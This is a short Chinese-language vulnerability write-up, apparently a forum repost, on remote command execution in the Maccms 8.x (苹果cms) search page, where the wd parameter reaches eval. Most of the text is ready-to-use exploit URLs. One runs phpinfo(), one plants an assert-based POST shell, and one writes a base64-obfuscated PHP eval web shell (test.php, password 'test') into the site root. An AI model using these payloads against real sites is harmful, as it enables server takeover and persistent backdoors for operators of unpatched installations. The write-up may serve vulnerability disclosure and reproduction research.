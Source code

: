 # Maccms 8.x(苹果cms)命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3011](https://www.zhihuifly.com/t/topic/3011)

# Maccms 8.x(苹果cms)命令执行漏洞

## 一、漏洞简介

搜索页面搜索参数过滤不严
导致直接eval执行PHP语句，前台命令执行可getshell

## 二、漏洞影响

Maccms 8.x

## 三、复现过程

payload：

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:phpinfo()}{endif-A} 
```

![image](img/c8659c655b3a4a87ded78b641362aa50.png)

getshell payload（a）:

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

POST `a=phpinfo()` 
```

![image](img/6c075af7ab0a960f71f789803ab30458.png)

写入网站根目录一句话木马文件payload（文件名：test.php，密码：test）:

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:print(fputs%28fopen%28base64_decode%28dGVzdC5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW3Rlc3RdKTsgPz4%29%29)}{endif-A} 
```